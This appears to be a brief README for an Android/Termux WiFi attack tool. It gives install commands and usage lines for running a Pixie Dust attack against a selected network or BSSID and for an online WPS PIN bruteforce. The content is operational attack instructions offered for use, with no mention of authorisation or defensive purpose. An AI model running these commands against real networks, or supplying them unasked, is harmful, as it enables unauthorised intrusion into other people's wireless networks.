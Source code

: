 # rejaul2712

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw


Example : sudo python rejaul.py -i wlan0 -K

Note:

First turn off your Wifi.

Show avaliable networks and start Pixie Dust attack on a specified network.

sudo python rejaul.py -i wlan0 -K

Start Pixie Dust attack on a specified BSSID: 

sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K

Launch online WPS bruteforce with the specified first half of the PIN:

sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

Troubleshooting

"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
